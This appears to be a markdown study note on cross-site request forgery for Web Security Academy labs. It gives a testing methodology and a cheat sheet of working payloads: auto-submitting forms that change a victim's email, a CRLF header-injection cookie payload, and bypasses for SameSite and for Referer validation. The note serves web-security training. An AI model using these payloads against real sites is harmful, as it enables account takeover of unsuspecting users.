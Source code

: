 # CSRF

## Key Terms

```
- Engagment tools -> Generate CSRF PoC (Burp Professional)
- SameSite: 
	-> Lax (default depends browser) -> only GET
	-> Strict -> only same site requests
	-> None -> secure flag required (https)
	
- \r\n -> %0d %0a
- Method spoofing -> search engine, e.g> _method=POST , @method('POST'), method=POST etc
```

## Most important labs


- [CSRF bypassing SameSite=Strict restriction via redirect + path traversal + CSRF](SameSite-Strict-bypass-via-client--side-redirect(Redirect+Path Traversal+CSRF).md)

- [CSRF bypassing SameSite=Lax via method spoofing](SameSite-Lax-bypass-via-method-override-(method spoofing).md)

- [CSRF via Header Injection In Duplicated Cookie (csrf+cstfKey matches)](CSRF+Header-injection-where-token-is-tied-to-non-session cookie.md)

## Metodology

```bash
- Try switch POST to GET
- Remove csrf token
- Token not tied to account -> Try valid (our) csrf token
- Cookie ->
    > csrf token + username/email
    > try duplicate cookie %0d %0a + Header Injection
- Same cookie work in differents subdomains
- No same-site? -> after 2 mins same-site = lax
- Same-Site = strict? -> search redirect 
- Try remove Refered header
  ```

- ![CSRF-MAP-CASES](/04-Screenshots/CSRF-map.png)


#### Cheat Sheet

```js

// CSRF NO DEFENSES  / TRY WITH GET INSTEAD POST
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
</form>

<script>
    document.forms[0].submit();
</script>
//
// CSRF TOKEN NO TIED COOKIE SESSION
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
	 <input type="hidden" type="email" name="csrf" value="<CSRF-TOKEN>"> 
</form>

<script>
    document.forms[0].submit();
</script>
//
// CSRF + Header injection - csrf token tied to csrfKey
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
	 <input type="hidden" type="email" name="csrf" value="<CSRF-TOKEN>"> 
</form>

<img src="https://<IP>/?search=test%0d%0aSet-Cookie:%20csrfKey=<CSRF-KEY-MATCH>%3b%20SameSite=None" onerror="document.forms[0].submit()">
//
// SAME-SITE LAX (DEFAULT) + METHOD SPOOFING
<script>
    document.location = "<IP>/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
//
// SAMESITE STRICT BYPASS VIA CLIENT-SIDE REDIRECT
<script>
    location="<IP>/post/comment/confirmation?postId=../../my-account/change-email?email=pwnd@pwned.com%26submit=1"
</script>
//
// CSRF where Referer validation depends on header being present (add this to normal csrf to remove Refered header)
<meta name="referrer" content="no-referrer">
//
// CSRF with broken Referer validation
Referrer-Policy: unsafe-url (http header)

<form class="login-form" name="change-email-form" action="https://<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
</form>

<script>
   history.pushState("", "", "/?0ad0008e0432189380d1444800d90040.web-security-academy.net/")
    document.forms[0].submit();
</script>

// METHOD SPOOFING
<script>
    document.location = "<IP>/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

